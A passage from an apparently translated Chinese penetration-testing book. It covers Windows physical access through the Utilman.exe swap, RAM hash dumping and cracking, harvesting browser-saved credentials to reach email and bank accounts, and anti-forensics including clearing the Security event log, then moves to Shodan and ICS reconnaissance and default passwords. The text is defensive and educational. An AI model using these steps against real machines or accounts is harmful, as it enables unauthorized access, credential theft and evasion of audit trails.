

**图 1.22** 使用 `John the Ripper` 破解密码哈希。

现在我想到了这一点（当时正在授课），并意识到你们中的一些人可能不想或无法在主机上禁用杀毒软件（`AV`）。还有另一种方法可以在不使用任何恶意软件的情况下转储这些哈希。相反，你可以组合使用两种取证工具来捕获系统 `RAM`，然后从内存镜像中转储密码哈希。最简单的 `RAM` 转储工具是 `FTK Imager Lite`，它甚至不需要安装在你的系统上，从而进一步减少任何类型的痕迹。


**图 1.23** `FTK Imager`。

还有一些命令行工具，如 `dumpit`（`https://www.magnetforensics.com/resources/magnet-dumpit-for-windows/`），可以下载并添加到 `U` 盘，然后将 `U` 盘插入系统，调用辅助功能选项可执行文件 `Utilman.exe`（实际上就是 `cmd.exe`），切换到 `U` 盘的盘符，运行 `dumpit`，将 `RAM` 捕获到外部驱动器，使用 `volatility` 转储密码哈希（`hashdump` 插件），然后运行一个



**图 1.26** 使用正确密码破解 `Windows` 后访问电子邮件。

`Google` 密码管理器很可能还包含其他登录信息和凭据。为了显示 `Google` 密码管理器中的凭据，你必须输入该账户的 `Windows` 登录凭据。之后，你可以点击隐藏图标以显示用于该网站的实际密码。现在，大约五年前（从撰写本文时算起），拥有网站凭据就已足以进入用户访问的几乎任何网站。如今，提供额外的身份验证（如短信验证码）才能访问网站已经非常普遍。`PayPal` 就是一个很好的例子，`PayPal` 账户的密码很可能只允许通过密码和短信验证码登录。有些账户在你将设备指定为受信任设备后允许进入，无需短信或密码重置问题。像 `Coinbase` 这样的网站可能需要 `Google Authenticator` 之类的应用，但过去我曾让 `Coinbase` 信任我的设备 `30` 天。即使你进入了 `Coinbase` 账户，如今通常也需要 `Authenticator` 应用才能转移大额（甚至小额）加密货币。五年后，如果每个网站都使用双因素认证（`2FA`），这可能对攻击者没有太大价值。我确实想提一下我最初撰写本章以来发现的一个重要情况。如果你开始攻击时机器已锁定，而你将其关闭，然后按照本章描述的步骤破解进入机器，你实际上也许能够“恢复” `Chrome` 和 `Edge` 会话，而无需登录任何网站（甚至可能绕过某些 `2FA`）。我在自己的系统上成功做到了这一点。我能在计算机处于睡眠模式（现代 `Windows` 的默认绿色模式）时执行此攻击，而不是完全关机。

## 密码管理器



**图 1.27** 浏览器密码管理器。

就 `Microsoft Edge` 浏览器而言，当我提供 `Windows` 登录密码（`P@ssw0rd`）时，攻击者也可以恢复存储的密码和凭据。这里列出的一个值得关注的网站是 `creditonebank`，它有第二重身份验证机制。必须使用短信验证码或电子邮件验证码才能访问该网站。但由于我可以访问用户的 `Gmail` 账户，我可以通过电子邮件获取验证码，然后访问信用卡网站。测试过的其他网站也有此功能，这比使用短信或 `Google Authenticator` 之类的应用更容易绕过。



**图 1.28** 标准浏览器中存储的典型凭据。

好了，关于入侵用户账户和窃取用户凭据的内容已经够了。如果你扮演渗透测试员或黑客的角色，你需要开始清理收尾工作。这些技术有时被称为反取证。我不认为你希望任何人，尤其是机器的主人，知道你以管理员身份登录过（如果他们甚至可能会注意到）。我们可以从 `Windows` 资源管理器的“用户”文件夹中删除我们用来登录的配置文件。如果你在系统上创建了内存转储文件，也请删除它。完成后务必清空回收站。



**图 1.29** 删除管理员配置文件。

如果你在系统上关闭了杀毒软件，你需要重新启用它，虽然根据我的经验，它通常最终会自动恢复到启用状态。接下来，我们需要禁用管理员账户。当用户处于登录屏幕时，他们会注意到两个账户：他们自己的和管理员。这可能会让机器主人感到奇怪，因此我们可以运行以下命令来停用管理员账户。之后，我们还要清除安全日志，这样我们的任何操作都无法被追踪。虽然会有一条日志条目表明日志已被清除，但在该事件之后日志中还会有数百条其他条目，因此那一条日志条目对攻击者来说可能不会引起太大担忧。

```
C:\Windows\System32>net user Administrator | find "active"
C:\Windows\System32> net user Administrator /active:no
C:\Windows\System32> wevtutil cl Security
```

**图 1.30** 停用管理员账户。

现在，管理员账户已被重新禁用，其配置文件已被删除，我们可以继续最后步骤，即将被更改的 `Utilman.exe` 替换为合法文件。

*撤销无密码破解进入 `Windows` 操作系统方法的步骤：*

1. 在 `U` 盘或 `DVD` 等旧介质上获取一份 `Windows` 安装介质。

   注意：如果使用 `DVD`，请在步骤 `2` 中选择该选项并立即按下空格键。

2. 进入计算机的启动菜单，确保你可以从安装介质启动（如果需要）。

   注意，如果启用了安全启动，则需要在 `BIOS` 中将其禁用。

3. 你应该会进入一个 `Windows` 安装屏幕，可以在其中选择语言。单击“下一步”。

4. 此时，切勿单击“安装”按钮。而是单击“修复计算机”。

   注意：执行安装过程可能会清除你的所有数据。

5. 从选项列表中选择“疑难解答”。

6. 从“高级选项”列表中选择“命令提示符”。

7. 输入 `X:\Sources> copy C:\Windows\System32\Utilman.1 C:\Windows\System32\Utilman.exe`

8. 输入 `Y`。单击右上角的红色 `X` 关闭命令提示符窗口。



**图 1.31** 恢复 `Utilman.exe`。

9. 单击“继续到 `Windows`”，然后 `Windows` 将正常启动。然后在 `Windows` 登录屏幕，单击“轻松使用”按钮（`Utilman.exe`）以获取命令提示符。

**现在它应该像往常一样正常运行，并允许用户使用辅助功能选项。**



**图 1.32** 启动实用程序管理器（实际上是 `Cmd.exe`）。

## 如何防范这种物理攻击并保护你的系统

安装 `Windows 11`。说真的，这是第一个似乎已经解决此漏洞的操作系统，该漏洞曾可用于除 `Windows NT 4` 之外的所有 `Windows` 版本（`Windows NT 4` 缺乏辅助功能选项以及 `USB` 或 `FAT32` 支持）。在过去，你可以将 `BitLocker` 或其他类型的硬件或软件磁盘加密与 `Windows` 操作系统一起使用，但 `Windows 11` 似乎终于堵住了这个漏洞。因此，为了更安全，请升级你的 `Windows` 操作系统（尽管我个人讨厌 `Windows 11` 及其不稳定的用户界面）。`Windows 11` 确实有苛刻的硬件要求，有些计算机可能无法满足这些最低硬件要求。例如，该操作系统确实要求你的 `PC` 中装有可信平台模块（`TPM`）芯片。然而，有一些黑客手段可以让人们绕过这些要求。请记住，就像越狱 `iPhone` 或 `root Android` 一样，此类未经授权的修改不受供应商支持，并且很可能会使你的操作系统面临被利用的风险。作为用过所有 `Windows` 版本的人，我意识到学习新版本的 `Windows` 需要投入大量时间才能变得非常熟悉。


**图 1.33** 令人望而生畏，但非常安全的 `Windows 11` 操作系统。

但在结束本章之前，我想提醒你注意一个事实：并非所有版本的 `Windows 11` 都能免受这种攻击。在某些情况下，`Windows 11` 是从 `Windows 10` 升级而来的，用户会被告知并非 `Windows 11` 的“所有功能”都能正常工作。我还注意到，这一点非常重要，即当创建“未关联 `Microsoft` 帐户”的本地帐户时，加密功能似乎确实能保护系统。而 `Microsoft` 帐户似乎是 `BitLocker` 加密功能无需额外配置即可正常工作的必要条件。因此，你需要全面投入，包括满足硬件要求并使用 `Microsoft` 帐户登录，才能获得完全安全的 `Windows 11`。如果你不遵守 `Microsoft` 的规则，即使是 `Windows 11` 也仍然容易受到这种物理攻击方式的影响。请参见下面的证明。



**图 1.34** 你没有遵循微软指南，结果被入侵了 ☹。

## 总结

在本章中，我们研究了当攻击者可以物理访问运行 `Windows` 的机器时，`Windows` 系统存在的漏洞。虽然使用本章介绍的技术可以轻松地在没有密码的情况下进入 `Windows`，但要进入系统并进一步访问用户存储在浏览器中的凭据，攻击者还需要采取额外步骤，包括破解用户密码。其中一些漏洞在 `Windows` 操作系统中已经存在了 `20` 多年，但微软似乎正试图通过 `Windows 11` 等新操作系统逐步淘汰它们。尽管 `BitLocker` 已经存在了一段时间，但在过去版本的操作系统中，它的实现是可选的。本章的重要启示是：使用加密、使用非常强的密码，并且在不用电脑时完全关机，而不是使用睡眠模式。


# 2 更新并更改默认设置，否则后果自负！

## 引言

大多数设备、软件和嵌入式设备都带有默认配置。制造商和开发人员创建这些默认配置，是为了让用户在购买设备时能够初始登录并进行设置；然而，在大多数情况下，用户从不费心移除或替换这些默认内容。这使得已知的凭据信息对大多数攻击者来说唾手可得，通常只需在 Google 上搜索一下，就能尝试登录连接到互联网的机器。

默认密码问题如此普遍，以至于 CISA 已经建立了“安全设计”（Secure by Design）计划，用于教育公众和开发人员了解这些危险。暴露在互联网上且凭据易于猜测的设备很容易被利用，从而进一步访问受影响的网络；本书后面将对此进行详细描述。

除了默认密码之外，还有已知被利用漏洞的问题。当产品中发现并披露弱点时，这些弱点会被标记为 CVE（通用漏洞与披露）编号。2023 年，共创建了 52,286 个 CVE——这意味着有超过 50,000 个此前未知的漏洞被发现并报告！虽然已有数千个 CVE 被发布，但其中只有一小部分被威胁行为者在现实世界中利用以造成影响。CISA 通过“已知被利用漏洞”（KEV）目录来跟踪这些漏洞，帮助组织了解哪些漏洞正在现实世界中被积极利用。要了解更多关于 CVE 的信息，甚至学习如何发现自己的漏洞并向 MITRE 报告，请参阅[第 5 章](#)关于漏洞识别的部分！

现在，在我们尝试使用这些类型的攻击之前，我们需要先找到要测试的设备。

## SHODAN

Shodan 组织不断扫描互联网上可访问的设备并建立索引，然后在其网站上公开发布。这使它成为一个极其强大且创新的工具，可以帮助我们理解并找到我们组织的资产。Shodan 是一个专门设计用于定位和分析互联网上连接设备的搜索引擎，拥有关于这些设备的大量信息数据库。虽然对某些人来说这可能看起来有争议，但它的能力确实可以在许多方面使组织受益。



**图 2.1** Shodan 主页，网址为 www.shodan.io。

Shodan 最有价值的功能之一是它能够发现过时的服务。这对于任何组织维护其系统基础设施的安全性和效率都至关重要。过时的服务，例如旧版本的软件或固件，可能是黑客可以利用的主要漏洞。只需输入特定的搜索条件，如软件版本或特定协议，Shodan 就能快速生成一份全面的报告，突出显示任何潜在漏洞。这节省了大量原本需要手动扫描每台设备的时间和精力。

### 搜索

首先，我们可以从搜索特定的组织名称或网站开始。在这个场景中，我们将使用过滤器 `org:tesla` 搜索 Tesla 组织的可用资产。这会在 Shodan 数据库中搜索与 Tesla 相关的任何组织，其中可能包括一些误报，例如名称中包含 Tesla 但与 Tesla 公司无关的组织。从图 2.2 的搜索中，我们会注意到返回了 948 条结果。



**图 2.2** 使用 Shodan 搜索过滤器搜索 Tesla 组织。

我们还可以通过选择特定的端口进行分析来进一步缩小范围。传输控制协议（TCP）端口 3389 以远程桌面协议（RDP）而闻名，由于其可利用性和授予的访问权限，成为威胁行为者的重点攻击目标。由于它在攻击中被频繁利用，许多安全研究人员亲切地称 RDP 为“勒索软件部署协议”（Ransomware Deployment Protocol）。为了缩小结果范围，我们可以在搜索中添加另一个条件，将其更新为 `org:tesla port:3389`。这样我们的结果就从 948 条减少到了两条！



**图 2.3** 仅搜索 RDP 的 3389 端口，并通过截图识别出一个开放的 RDP 端口！

然而，仔细观察图 2.3 会发现该域名属于 `teslacorp.co.uk`。一些 Google 研究表明，这个域名并不属于埃隆·马斯克著名的 Tesla 公司，而是属于英国一家不相关的安全企业。

此外，Shodan 还提供有关每个已发现设备的详细信息，包括开放端口、横幅，有时甚至包括截图。这些信息可以帮助组织全面评估其网络的安全态势，并识别需要立即关注的任何薄弱环节。

### 工业控制系统

Shodan 还支持搜索暴露的 ICS 接口和系统。可以通过点击“探索”（Explore）按钮，然后点击“工业控制系统”（Industrial Control Systems）按钮来访问。


**图 2.4** 在 Shodan 页面中找到“工业控制系统”按钮。

在**工业控制系统**页面中，可以搜索多种不同的协议。请注意，图 2.5 中 Shodan 的任何标签都需要企业版帐户才能搜索。



**图 2.5** 在 Shodan 的 ICS 页面中探索协议。

在此示例中，我们将点击**探索 Modbus** 来搜索 Shodan 索引的 Modbus 信息。这会打开对 TCP 端口 502 的搜索；我们还在搜索中添加了字符串 `Unit`，以排除其他服务的误报。在我们的搜索中，我们识别出互联网上有超过 32,000 个使用 Modbus 的系统！如图 2.6 所示。



图 2.6 通过 Shodan 索引识别互联网上超过 32,000 个开放的 Modbus 端口。

## 物联网

我们还可以探索其他项目，包括网络摄像头、打印机和远程桌面。点击“图像”按钮，索引到的网络摄像头和登录页面就会显示出来。



图 2.7 使用 Shodan Image 查看已索引的网络摄像头和 RDP 登录信息。

Shodan 上还可以找到许多其他设备（例如打印机和防火墙），但它们很可能没有关联的图像。

## 会员资格与积分

Shodan 的许多功能需要会员资格才能使用。默认情况下，非会员每天只能进行少量搜索。要执行更高级的搜索和筛选，需要付费账户。在撰写本文时，会员资格为一次性购买 49 美元；不过，Shodan 历来会在黑色星期五促销中以 1 美元出售终身会员资格。会员资格可在 `https://account.shodan.io/billing/member` 购买。

每个账户都有“积分”的概念，用于跟踪每个账户的搜索次数和使用量。会员每月最多可使用 100 积分。并非所有搜索都会消耗积分，因为不带任何筛选条件的搜索不消耗积分。

## API 集成

Shodan 支持一个文档完善且易于集成的 API 来访问其数据。如果开发软件不是你的强项，Shodan 也提供了一个 `pip` 包，可以轻松地从命令行查询数据。该包可通过以下命令安装：

```
$ pip install -U --user shodan
```

安装完成后，我们可以将 API 密钥放入程序中，以便从命令行利用 Shodan 的数据。你的 API 密钥位于会员仪表板中。

```
shodan init YOUR_API_KEY
```

初始化之后，我们可以使用 `shodan` 调用 Shodan 工具并提供搜索查询。这会返回与网站上类似的信息，只不过是在终端中显示。与其他工具一样，只要我们能通过命令行执行某个流程，我们就能为自己编写脚本来实现额外的功能。

通过利用 Shodan，组织可以确定工作的优先级，专注于更新和修补构成最大风险的过时服务。这种主动方法极大地提升了组织的整体安全性，并将成功网络攻击的可能性降至最低。此外，它使 IT 团队能够有效分配资源，因为他们现在可以花更少的时间搜索漏洞，而将更多的时间用于实施稳健的安全措施。

虽然了解我们在 Shodan 上的暴露情况具有重要意义，但组织仍然应当阻止 Shodan 扫描器索引其资产。这是因为 Shodan 上的信息对互联网上的任何人都可用，包括那些意图损害合法组织的威胁行为者。IPFire 有一些优秀的文档¹，介绍了如何阻止 Shodan 索引设备。

总之，Shodan 为网络管理员提供了一种革命性的解决方案，用来定位和分析网络中的过时服务。通过利用其强大的搜索引擎能力，组织可以加强其基础设施的安全性，提高运营效率，并最终保护其组织免受潜在网络威胁。将 Shodan 作为一项有价值的工具，是迈向更安全、面向未来的 IT 环境的重要一步。

## 默认配置文件

在识别服务与设备时，我们经常会遇到许多从未听说过的不同类型的系统和服务。这正是 Google 的强大之处！利用搜索引擎查找信息，我们可以尝试找到已识别设备的默认登录信息。

例如，通过简单的 Google 搜索就能找到施乐打印机的密码，为测试人员提供登录该资产所需的信息：



图 2.8 基于 Google 搜索识别施乐打印机的默认登录凭据。

除了简单的 Google 搜索之外，如果源代码在线上发布，我们也可以查看源代码。诸如 GitHub、GitLab 和 SourceForge 之类的网站通常用于托管开源项目，并允许任何人下载和查看这些信息。

例如，ChurchInfo 程序是一个开源项目，供教会维护用户、堂区和活动的数据库。该项目托管在 SourceForge 上，查看代码中的信息可以发现默认密码是 `churchinfoadmin`。如图 2.9 所示。

```
4) 你应该能够在“http://[服务器名]/churchinfo”访问 ChurchInfo。数据库脚本会设置一个名为“Admin”的初始用户，密码为“churchinfoadmin”（密码不区分大小写）。登录时会提示你更改此密码。创建其他用户账户后，你可以删除或重命名此默认账户。只需确保始终拥有一个具有管理员权限的用户。
```

图 2.9 来自 ChurchInfo 自述文件的屏幕截图，其中说明了默认密码。

在识别系统时，搜索默认密码或配置是明智之举，因为它们可能代表进入环境的初始访问途径。同样地，更换系统上的默认凭据至关重要，因为相关的文档通常很容易找到。

## 局域网上的默认设置

内部网络上的设备往往比互联网上的设备更普遍地使用默认凭据，这仅仅是因为互联网连接设备的暴露因素不同。因此，能够访问内部网络的威胁行为者很可能能够识别并攻破已连接的设备，以进行进一步利用。

要尝试使用默认凭据，我们必须首先找到潜在设备。第 3 章“Web 应用攻击”对此进行了详细讨论，我们在该章中搜索多种类型的子域名和开放端口。在本章的背景下，我们将探索示例本地子网上的一个简单 IP 范围。

要查找网络上的设备，我们必须从端口扫描开始。基于初始起点的情报，我们可以确定本地子网是什么以及我们逻辑上所处的位置。这可以通过我们系统上的 IP 地址找到，在 Linux 上使用 `ip a` 等命令，在 Windows 机器上使用 `ipconfig /all` 命令。

在下面的示例中，我们可以看到接口 `eth0` 的 IP 地址被分配为 `192.168.40.191`，CIDR 为 24。这表明本地子网位于 `192.168.40.0/24` 范围内。

```
(chris@kali) - [~/config]
└$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host proto kernel_lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:02:29:0b brd ff:ff:ff:ff:ff:ff
    inet 192.168.40.191/24 brd 192.168.40.255 scope global dynamic noprefixroute eth0
       valid_lft 23754sec preferred_lft 23754sec
    inet6 fe80::20c:29ff:fe02:290b/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```

